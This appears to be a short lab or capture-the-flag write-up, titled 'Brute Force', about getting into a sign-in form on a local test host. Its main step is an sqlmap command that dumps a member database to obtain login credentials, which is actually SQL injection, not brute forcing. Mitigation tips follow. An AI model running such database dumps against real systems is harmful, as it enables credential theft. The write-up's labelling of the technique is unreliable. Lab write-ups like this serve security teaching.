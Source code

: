 # Brute Force

It's possible for an attacker to brute force the sign in form.

## Steps
* Open your terminal and run:
```bash
sqlmap "http://192.68.0.106/index.php?page=member&id=1&Submit=Submit#" --dump -D Member_Brute_Force
```
<img src="https://i.imgur.com/OSQQBkT.png" />

* Log in using the credentials.

## Vulnerablilities
* An attacker can obtain sensitive data such as user passwords or pins in such cases.

## Ways to secure
* Ensure clients use strong complex passwords.
* Limit the amount of requests a client can create.